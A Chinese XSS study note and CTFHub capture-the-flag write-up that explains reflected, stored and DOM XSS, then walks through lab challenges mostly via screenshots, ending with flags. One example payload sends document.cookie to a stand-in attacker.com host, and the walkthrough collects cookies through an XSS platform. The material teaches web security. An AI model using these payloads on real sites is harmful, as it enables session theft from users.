# XSS

## 漏洞原理

> Web 应用程序在处理用户输入时，没有对输入进行充分的过滤和转义，直接将用户输入的内容输出到页面中，攻击者就可以利用这个漏洞注入恶意脚本。

例如，一个留言板应用程序直接将用户输入的留言显示在页面上，如果攻击者输入一段 JavaScript 代码，当其他用户访问该留言板时，这段代码就会在他们的浏览器中执行。

## 漏洞类型
### 反射型 XSS
**特点**：攻击者诱使用户点击包含恶意脚本的链接，服务器接收请求后将恶意脚本反射回用户的浏览器并执行。这种攻击通常是一次性的，不会在服务器上存储恶意脚本。
**示例**：一个搜索页面，URL 参数直接显示在搜索结果页面上。攻击者构造一个包含恶意脚本的 URL，如```http://example.com/search?keyword=<script>alert('XSS')</script>```。

### 存储型 XSS

**特点**：攻击者将恶意脚本提交到服务器并存储在数据库中，当其他用户访问包含该恶意脚本的页面时，脚本会在他们的浏览器中执行。这种攻击危害更大，因为它会影响多个用户。
**示例**：在一个论坛的留言功能中，攻击者在留言内容中注入恶意脚本，如```<script>document.location='http://attacker.com?cookie='+document.cookie</script>```。当其他用户查看该留言时，脚本会将他们的 Cookie 信息发送到攻击者的服务器。

### DOM 型 XSS
**特点**：基于 DOM（文档对象模型）的 XSS 攻击，不依赖服务器端处理，而是通过修改页面的 DOM 结构来注入恶意脚本。攻击者通过诱导用户访问包含恶意脚本的 URL，当页面加载时，脚本会在浏览器中执行。
**示例**：一个页面使用 JavaScript 动态更新内容，根据 URL 参数修改页面元素。攻击者构造一个包含恶意脚本的 URL，如```http://example.com/page.html?param=<script>alert('XSS')</script>```，当用户访问该 URL 时，脚本会在浏览器中执行。

# 题目

## 反射型





在第一个输入框输入内容后，下面会显示。我看别人的wp中的js中写入alert语句都能被执行，我的直接冲定向了





定义一个变量试一下



被执行了



接着找个XSS平台，将url填入



不知道为啥，使用火狐是得不到cookie，最后用的Edge



**flag:ctfhub{8bc9faaca0589642c67759de}**

## 存储型



和上题类似，先测试一下





在第一个框中填入项目的地址



第二个框填入当前页的url



看一下XSS平台的后台



**flag:ctfhub{3481284913c5d18b9fdcdb77}**

## DOM反射



题目说了是DOM反射，看源码



填入1试试




中间加个**‘；**



链接交上去



去看一下


